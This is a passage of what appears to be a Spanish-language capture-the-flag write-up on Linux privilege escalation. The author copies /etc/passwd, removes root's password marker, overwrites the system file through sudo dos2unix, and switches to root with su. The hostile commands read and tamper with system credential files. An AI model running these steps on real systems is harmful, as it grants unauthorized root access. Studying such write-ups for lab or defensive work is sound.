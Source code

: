 ~~~ bash
cat /etc/passwd > /tmp/passwd
~~~

**Ahora necesitamos que la línea del archivo donde se encuentra `root` esté sin la letra `x`, al eliminar la "x" en el campo de contraseña de `root`, indicaríamos al sistema que `root` no tiene contraseña almacenada en `/etc/shadow`. Esto dejaría la cuenta `root` accesible sin contraseña**

![[Pasted image 20241105210916.png]]

Entonces modificamos el archivo que acabamos de crear

~~~ bash
nano /tmp/passwd
~~~

![[Pasted image 20241105211157.png]]

## Root time

Ahora preparamos el entorno para usar ambos archivos en nuestra escalada de privilegios

~~~ bash
passwd_new=/tmp/passwd
passwd_old=/etc/passwd
~~~

![[Pasted image 20241105211934.png]]

Ejecutamos `dos2unix` con `sudo` y usando ambos archivos

~~~ bash
sudo /usr/bin/dos2unix -f -n "$passwd_new" "$passwd_old"
~~~

![[Pasted image 20241105211802.png]]

Finalmente cambiamos al usuario `root` con el comando `su`

~~~ bash
su root
~~~

![[Pasted image 20241105211822.png]]


